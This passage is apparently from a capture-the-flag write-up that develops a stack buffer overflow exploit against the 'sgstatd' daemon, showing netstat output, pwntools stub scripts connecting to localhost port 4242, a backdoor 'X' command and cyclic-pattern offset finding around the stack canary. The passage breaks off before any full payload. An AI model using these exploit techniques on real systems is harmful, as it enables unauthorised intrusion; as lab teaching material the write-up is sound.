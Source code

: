 ```
$ ./usr/bin/sgstatd
Server started...
```

Ah, maybe it has opened a socket for us. `netstat` will tell us that, no problem.

```
$ sudo netstat -antop | grep sgstat
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      31316/sgstatd    off (0.00/0/0)
```

Cool, so it is listening on the same port that the server is listening on. Great!

We begin scripting this exploit with our traditional exploit stub leveraging [binjitsu](https://github.com/binjitsu/binjitsu).

```python
from pwn import *

r = remote('localhost', 4242)

r.interactive() 
```

This will allow us to interact with the binary via Python. We now need to test our hypothesis that we can overflow the buffer after giving the backdoor `X` command.

Assuming we can overflow the buffer, we need to know exactly where in the buffer the stack canary is checked. We will set a breakpoint in `gdb` where the stack canary is checked. A quick run with [radare](https://github.com/radare/radare2) can easily find this instruction. We know it is in the `sgstatd` function.

<script type="text/javascript" src="https://asciinema.org/a/4grarnzgwuksndw1vl6535ftd.js" id="asciicast-4grarnzgwuksndw1vl6535ftd" async></script>

Now that we know that `0x80493b2` is the address of the `xor`, we will send a `cyclic` string from `binjitsu` to the binary and see where in the `cyclic` string the stack canary is checked.

Example cyclic string usage:

```python
In [5]: cyclic(40)
Out[5]: 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa'

In [6]: cyclic_find('faaa')
Out[6]: 20
```

If we know the binary crashes at offset `faaa` in our `cyclic` string, then we can quickly know that `20` bytes into the string is the exact location of the crash.

Our current script is below.

```python
from pwn import *

r = remote('localhost', 4242)

# Activate the backdoor
r.sendline('X')

# Send our cyclic payload - 200 bytes we see from source
r.sendline(cyclic(200))

r.interactive() 
```
